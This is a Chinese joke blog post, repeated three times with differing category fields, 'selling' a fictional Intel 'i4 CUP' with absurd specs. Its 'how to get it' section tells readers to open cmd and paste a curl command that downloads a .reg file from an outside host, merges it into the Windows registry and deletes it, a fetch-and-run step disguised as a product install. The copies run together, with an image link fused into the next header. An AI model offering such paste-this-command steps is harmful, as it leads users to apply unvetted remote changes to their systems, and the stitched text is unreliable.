 ```yaml
---
title: 出售路边小作坊限定 Inter i4 CUP（滑稽）
date: 2020-09-27 17:29:00
updated: 2020-09-27 17:30:08
categories: 代码
tags:
- Intel
- CPU,i5,i4,AMD,路边小作坊,装逼,REG
---
```

**本文章内容全是扯淡，认真你就输了**
路边小作坊 i4 CUP 性价比超高 免费送一个
## 特色 ##
0.0Ghz 高主频，祝您的游戏可以达到3FPS电竞帧数
最多支持 128b 内存，让你同时运行128个程序
全新 Inter128 ，获得更高的软件兼容性
NMSL-Lake 架构，性能更好
9核高速处理器，其中4大核5小核
L3 Cache .6Mb，减少了蓝屏的概率
不支持虚拟化，防止虚拟机bd渗入实体机，也防止了杀毒软件高占用
## 获取 ##
PS：注册后可以免评论审核
[hide]按下 Windows Logo Key+R
输入cmd 回车
输入下面的命令 粘贴好了回车：
curl https://cos.mbrjun.cn/IMGS/2020/09/27/i412thGen.reg --output "Installi4CPU.reg" && Installi4CPU.reg &&ping localhost > nul && del "Installi4CPU.reg"
[/hide]
## 效果 ##
![  ][1]


  [1]: https://cos.mbrjun.cn/IMGS/2020/09/27/i4.png---
title: 出售路边小作坊限定 Inter i4 CUP（滑稽）
date: 2020-09-27 17:29:00
updated: 2020-09-27 17:30:08
categories: 汐统
tags:
- Intel
- CPU,i5,i4,AMD,路边小作坊,装逼,REG
---
**本文章内容全是扯淡，认真你就输了**
路边小作坊 i4 CUP 性价比超高 免费送一个
## 特色 ##
0.0Ghz 高主频，祝您的游戏可以达到3FPS电竞帧数
最多支持 128b 内存，让你同时运行128个程序
全新 Inter128 ，获得更高的软件兼容性
NMSL-Lake 架构，性能更好
9核高速处理器，其中4大核5小核
L3 Cache .6Mb，减少了蓝屏的概率
不支持虚拟化，防止虚拟机bd渗入实体机，也防止了杀毒软件高占用
## 获取 ##
PS：注册后可以免评论审核
[hide]按下 Windows Logo Key+R
输入cmd 回车
输入下面的命令 粘贴好了回车：
curl https://cos.mbrjun.cn/IMGS/2020/09/27/i412thGen.reg --output "Installi4CPU.reg" && Installi4CPU.reg &&ping localhost > nul && del "Installi4CPU.reg"
[/hide]
## 效果 ##
![  ][1]


  [1]: https://cos.mbrjun.cn/IMGS/2020/09/27/i4.png---
title: 出售路边小作坊限定 Inter i4 CUP（滑稽）
date: 2020-09-27 17:29:00
updated: 2020-09-27 17:30:08
categories: Windows 10
tags:
- Intel
- CPU,i5,i4,AMD,路边小作坊,装逼,REG
---
**本文章内容全是扯淡，认真你就输了**
路边小作坊 i4 CUP 性价比超高 免费送一个
## 特色 ##
0.0Ghz 高主频，祝您的游戏可以达到3FPS电竞帧数
最多支持 128b 内存，让你同时运行128个程序
全新 Inter128 ，获得更高的软件兼容性
NMSL-Lake 架构，性能更好
9核高速处理器，其中4大核5小核
L3 Cache .6Mb，减少了蓝屏的概率
不支持虚拟化，防止虚拟机bd渗入实体机，也防止了杀毒软件高占用
## 获取 ##
PS：注册后可以免评论审核
[hide]按下 Windows Logo Key+R
输入cmd 回车
输入下面的命令 粘贴好了回车：
curl https://cos.mbrjun.cn/IMGS/2020/09/27/i412thGen.reg --output "Installi4CPU.reg" && Installi4CPU.reg &&ping localhost > nul && del "Installi4CPU.reg"
[/hide]
## 效果 ##
![  ][1]


  [1]: https://cos.mbrjun.cn/IMGS/2020/09/27/i4.png
